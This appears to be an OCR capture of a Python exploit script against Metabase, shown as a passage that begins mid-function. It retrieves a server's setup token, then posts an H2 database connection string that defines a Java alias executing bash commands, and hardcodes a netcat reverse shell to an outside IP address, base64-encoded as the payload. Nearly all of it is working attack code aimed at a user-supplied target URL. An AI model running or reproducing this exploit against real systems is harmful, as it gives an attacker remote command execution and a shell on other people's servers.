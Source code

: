 ```python
            data = response.json()
            setup_token = data.get("setup-token")
            metabase_version = data.get("version", {}).get("tag")

            if setup_token is None:
                print("Setup token not found or is null.")
                return None, None
            else:
                print(f"Setup Token: {setup_token}")
                print(f"Version: {metabase_version}")
                return setup_token, metabase_version
        else:
            print(f"Failed to obtain the token with status code {response.status_code}")
            return None, None
    except requests.exceptions.RequestException as e:
        print(f"Exception occurred: {e}")
        print(f"Failed to connect to {target_host}.")
        return None, None

def send_reverse_shell_request(target_host, setup_token, payload):
    headers = {
        "Content-Type": "application/json"
    }
    shell_url = f"{target_host}/api/setup/validate"
    shell_data = {
        "token": setup_token,
        "details": {
            "details": {
                "subprotocol": "h2",
                "classname": "org.h2.Driver",
                "advanced-options": True,
                "subname":"mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"bash\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('{echo," + payload + "}|{base64,-d}|{bash,-i}');"
            },
            "name": "x",
            "engine": "postgres"
        }
    }

    try:
        print(f"Sending POST request to {shell_url}...")
        shell_response = requests.post(shell_url, headers=headers, data=json.dumps(shell_data))
        print(shell_response.text)
    except requests.exceptions.RequestException as e:
        print(f"Exception occurred: {e}")
        print(f"Failed to connect to {shell_url}.")
        return

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Metabase Exploit Script")
    parser.add_argument("-u", "--url", type=str, required=True, help="Target URL (e.g., http://localhost)")

    args = parser.parse_args()

    target_host = args.url
    print(f"Target Host: {target_host}")

    setup_token, metabase_version = get_setup_token_and_metabase_version(target_host)
    command = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.240 443 >/tmp/f"
    payload = encode_command_to_b64(command)
    print("Sending payload: " + payload)
```